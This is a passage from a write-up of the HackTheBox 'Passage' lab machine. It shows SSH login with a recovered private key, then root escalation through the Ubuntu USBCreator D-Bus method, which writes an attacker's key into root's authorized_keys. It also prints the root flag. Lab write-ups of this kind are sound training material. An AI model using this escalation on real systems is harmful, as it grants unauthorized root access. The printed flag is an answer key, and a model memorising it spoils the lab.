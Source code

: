 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ vi nadav.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ chmod 600 nadav.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ ssh -i nadav.id_rsa nadav@passage.htb
The authenticity of host 'passage.htb (10.129.19.253)' can't be established.
ED25519 key fingerprint is SHA256:BD7E5sbGZ+avx6QQcDrb9FWVVlbulHrgseaqsAQrvC4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'passage.htb' (ED25519) to the list of known hosts.
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## From nadav to root


### USBCreator

Ran **linpeas**

![](/assets/obsidian/e2304c9367e95c0c7c718ebd172ea8b0.png)

Google : `https://gist.github.com/noobpk/a4f0a029488f37939c4df6e20472501d`

> https://gist.github.com/noobpk/a4f0a029488f37939c4df6e20472501d

Copy my `id_rsa.pub` key to `/root/.ssh/authorized_keys/`

```bash
nadav@passage:~$ echo "ssh-rsa AAAAB3NzaC1yc...XDWPH1etLL9IE= kali@kali" > /tmp/key
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/key /root/.ssh/authorized_keys true
()
```

SSH as root

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ ssh -i id_rsa root@$(pt get rhost)
Warning: Identity file id_rsa not accessible: No such file or directory.
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# cat /root/root.txt
d571d6d3973af1587efc6f40fa8af6aa
```
